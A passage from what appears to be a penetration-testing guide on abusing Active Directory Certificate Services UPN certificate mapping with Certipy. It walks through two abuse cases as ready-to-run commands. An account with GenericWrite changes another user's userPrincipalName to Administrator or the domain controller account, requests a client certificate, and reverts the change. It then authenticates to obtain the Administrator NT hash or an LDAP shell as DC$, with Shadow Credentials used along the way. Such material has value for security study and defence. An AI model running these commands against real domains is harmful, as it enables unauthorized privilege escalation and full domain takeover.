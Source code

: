 ```bash
certipy account update -username John@corp.local -password Passw0rd! -user Jane -upn Administrator
```

Following this, a certificate enabling client authentication is requested as `Jane`, using the default `User` template.

```bash
certipy req -ca 'corp-DC-CA' -username Jane@corp.local -hashes <hash>
```

`Jane`'s `userPrincipalName` is then reverted to its original, `Jane@corp.local`.

```bash
certipy account update -username John@corp.local -password Passw0rd! -user Jane -upn Jane@corp.local
```

Authenticating with the obtained certificate will yield the NT hash of `Administrator@corp.local`, necessitating the specification of the domain in the command due to the absence of domain details in the certificate.

```bash
certipy auth -pfx administrator.pfx -domain corp.local
```

### Abuse Case 2

With the `CertificateMappingMethods` containing the `UPN` bit flag (`0x4`), an account A with `GenericWrite` permissions can compromise any account B lacking a `userPrincipalName` property, including machine accounts and the built-in domain administrator `Administrator`.

Here, the goal is to compromise `DC$@corp.local`, starting with obtaining `Jane`'s hash through Shadow Credentials, leveraging the `GenericWrite`.

```bash
certipy shadow auto -username John@corp.local -p Passw0rd! -account Jane
```

`Jane`'s `userPrincipalName` is then set to `DC$@corp.local`.

```bash
certipy account update -username John@corp.local -password Passw0rd! -user Jane -upn 'DC$@corp.local'
```

A certificate for client authentication is requested as `Jane` using the default `User` template.

```bash
certipy req -ca 'corp-DC-CA' -username Jane@corp.local -hashes <hash>
```

`Jane`'s `userPrincipalName` is reverted to its original after this process.

```bash
certipy account update -username John@corp.local -password Passw0rd! -user Jane -upn 'Jane@corp.local'
```

To authenticate via Schannel, Certipy’s `-ldap-shell` option is utilized, indicating authentication success as `u:CORP\DC$`.
